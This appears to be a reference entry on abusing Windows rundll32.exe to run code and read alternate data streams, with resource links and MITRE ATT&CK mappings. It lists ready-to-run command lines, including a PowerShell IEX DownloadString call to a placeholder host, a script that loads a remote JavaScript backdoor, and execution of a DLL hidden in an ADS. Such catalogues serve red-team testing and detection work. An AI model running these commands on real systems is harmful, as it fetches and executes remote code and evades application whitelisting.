 ## Rundll32.exe

* Functions: Execute, Read ADS

```
rundll32.exe AllTheThingsx64,EntryPoint    

rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://ip:port/');"

rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new%20ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");

rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WScript.Shell").run("calc.exe",0,true);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}

rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test")

rundll32 "C:\ads\file.txt:ADSDLL.dll",DllMain   
```
  
Acknowledgements:
* Casey Smith - @subtee

Code sample:
* [AllTheThingsx64.dll](https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/AllTheThings/AllTheThingsx64.dll)[1]     
* [AllTheThingsx86.dll](https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/AllTheThings/AllTheThingsx86.dll)[1]     

Resources:
* https://pentestlab.blog/2017/05/23/applocker-bypass-rundll32/
* https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_7
* https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/Rundll32.md
* https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/
* https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/

Full path:
```
C:\Windows\System32\rundll32.exe
C:\Windows\SysWOW64\rundll32.exe
```

Notes:
[1]Code sample linked to Red Canary - Atomic Red Team


 
    
    MITRE ATT&CK:
* [Control Panel Items](https://attack.mitre.org/wiki/Technique/T1196)
* [Bypass User Account Control](https://attack.mitre.org/wiki/Technique/T1088)
* [Rundll32](https://attack.mitre.org/wiki/Technique/T1085)
* [NTFS File Attributes](https://attack.mitre.org/wiki/Technique/T1096)

